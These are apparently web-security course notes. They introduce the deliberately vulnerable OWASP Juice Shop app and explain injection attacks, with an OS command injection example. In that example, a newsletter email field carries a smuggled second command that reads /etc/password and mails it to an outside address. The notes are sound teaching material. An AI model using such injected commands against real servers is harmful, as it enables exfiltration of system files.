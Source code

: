 ## Juice Shop

One of the best ways to learn about web security is to try out a few of the introduced techniques in an actual web application that is vulnerable. As we have covered JavaScript/Node.js, a vulnerable web application that is written in JavaScript/Node.js will be most useful to us.

The [OWASP Juice Shop Tool project](https://www.owasp.org/index.php/OWASP_Juice_Shop_Project) was designed specifically for this purpose. It is the most modern and sophisticated insecure web application written purely in JavaScript (using Node.js/Express/Angular) and *"encompasses vulnerabilities from the entire OWASP Top 10 along with many other security flaws found in real-world applications"*. OWASP stands for [Open Web Application Security Project](https://www.owasp.org) and is an organization whose mission is to improve software security. Creating a vulnerable application to showcase the worst security issues is one way to train software engineers in web security.

The Juice Shop project is a realistic online juice shop - we already saw a glimpse of it in the previous section. It features a number of web application vulnerabilities as security challenges with varying difficulties. 

Additionally, it comes with a companion guide called [Pwning OWASP Juice Shop](https://leanpub.com/juice-shop), which explains the vulnerabilities found in Juice Shop and a step-by-step solution guide for exploiting each vulnerability.

## OWASP Top 10 in practice

In the following sections, we will discuss the OWASP Top 10 vulnerabilities (derived by consensus from security experts) on the example of Juice Shop. Some of them will be introduced in more detail than others.

### Injection

Injection attacks exploit the fact that input is interpreted by the server without any checks. A malicious user can create input that leads to unintended command executions on the server.

Input for injection attacks can be created via:

- Parameter manipulation of HTML forms (e.g. input fields are filled with JavaScript code);
- URL parameter manipulation;
- HTTP header manipulation;
- Hidden form field manipulation;
- Cookie manipulation.

Injection attacks on the server can take multiple forms, we first consider **OS command injection**:

![OS command injection](img/L8-os-command-injection.png)

:point_up: Here, we have a web portal that allows a user to sign up to a newsletter. The form looks simple enough: one `<input type="text">` element and a `<button>` to submit the form. On the server-side, a bash script takes a fixed confirmation string (stored in file `confirm`) and sends an email to the email address as stated in the user's input (*Thank you for signing up for our mailing list.*). This setup of course assumes, that the user actually used an email address as input. Let's look at benign and malicious user input:

- The benign input `john@test.nl` leads to the following OS command: `cat confirm|mail john@test.nl`. This command line is indeed sufficient to send an email, as Linux has a command line [mail](https://linux.die.net/man/1/mail) tool.
- An example of malicious input is the following: `john@test.nl; cat /etc/password | mail john@test.nl`. If the input is not checked, the server-side command line will look as follows: `cat confirm | mail john@test.nl; cat /etc/password | mail john@test.nl`. Now, two emails are sent: the confirmation email and a mail sending the server's file `/etc/password` to `john@test.nl`. This is clearly *unintended code execution.*.
